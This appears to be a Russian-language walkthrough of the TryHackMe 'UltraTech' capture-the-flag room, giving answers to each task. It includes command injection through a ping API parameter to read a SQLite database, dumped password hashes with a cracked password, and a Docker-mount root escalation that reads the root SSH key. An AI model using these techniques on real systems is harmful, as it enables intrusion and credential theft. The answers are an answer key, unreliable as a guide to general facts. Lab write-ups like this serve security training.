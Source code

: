 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [UltraTech](https://tryhackme.com/r/room/ultratech1) 

Всего 4 задания:
## Задание 1
#### ~_. УльтраТех ._~
Эта комната вдохновлена реальными уязвимостями и неправильными конфигурациями, с которыми я столкнулся во время 
оценок безопасности. 
Если вы застряли на каком-то этапе, потратьте некоторое время на то, чтобы продолжить перечисление.
[ Ваша миссия ]
Компания UltraTech заключила с вами контракт на проведение пентеста своей инфраструктуры.
Это своего рода оценка «серого ящика», единственная информация, которой вы располагаете.
— это название компании и IP-адрес ее сервера.
Начните эту комнату, нажав кнопку «Развернуть» справа!
Удачи и, что еще важнее, получайте удовольствие!
__
Lp1 < fenrir.pro >
[ Дополнительная информация ]
Если у вас есть какие-либо комментарии или вопросы по этой комнате, вы можете связаться со мной на Discord TryHackMe .

### Ответьте на вопросы ниже
Разверните машину
```commandline
Ответ не нужен
```

## Задание 2
Что вы обнаружили после перечисления служб и ресурсов, доступных на этой машине?
### Ответьте на вопросы ниже
Какое программное обеспечение использует порт 8081?
nmap -sS -sV -p- <IP>
```commandline
Node.js
```
Какой еще нестандартный порт используется?
```commandline
31331
```
Какое программное обеспечение использует этот порт?
```commandline
Apache
```
Какой дистрибутив GNU/Linux используется?
```commandline
Ubuntu
```
Программное обеспечение, использующее порт 8081, представляет собой REST API. Сколько его маршрутов используется 
веб-приложением? 
```commandline
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hw 15 http://<IP>:8081/FUZZ
# auth, ping
```
```commandline
2
```

## Задание 3
Теперь, когда вы знаете, какие услуги доступны, пришло время ими воспользоваться!

Вы нашли место, где можно попробовать войти? Отлично!

Быстрые и неаккуратные реализации входа в систему обычно сопровождаются плохим управлением данными.

Должно быть что-то, что вы можете сделать, чтобы более тщательно изучить эту машину.

### Ответьте на вопросы ниже
Где-то есть база данных. Каково имя ее файла?
```commandline
curl -i 'http://<IP>:8081/ping?ip=`ls`'
```
```commandline
utech.db.sqlite
```
Каков хеш пароля первого пользователя?
```commandline
curl -i 'http://<IP>:8081/ping?ip=`cat%20utech.db.sqlite`'

r00t	f357a0c52799563c7c7b76c1e7543a32
admin	0d0ea5111e3c1def594c1684e3b9be84
```
```commandline
f357a0c52799563c7c7b76c1e7543a32
```
Какой пароль связан с этим хешем?
```commandline
md5
```
```commandline
n100906
```

## Задание 4
Поздравляю, если вы дошли до этого места, теперь вы должны уметь без проблем выполнять команды на сервере!

Пришло время для последнего шага!

На этот раз вы будете предоставлены сами себе, ведь есть только один вопрос и может быть несколько способов достичь 
вашей цели. 

Были допущены ошибки, воспользуйтесь этим.

### Ответьте на вопросы ниже
Каковы первые 9 символов закрытого SSH-ключа пользователя root?
```commandline
ssh r00t@<IP>
n100906

id
which docker
ls -l /usr/bin/docker
docker run -v /:/mnt --rm -it bash chroot /mnt bash
whoami
cat /root/private.txt
cat /root/.ssh/id_rsa
```
```commandline
MIIEogIBA
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)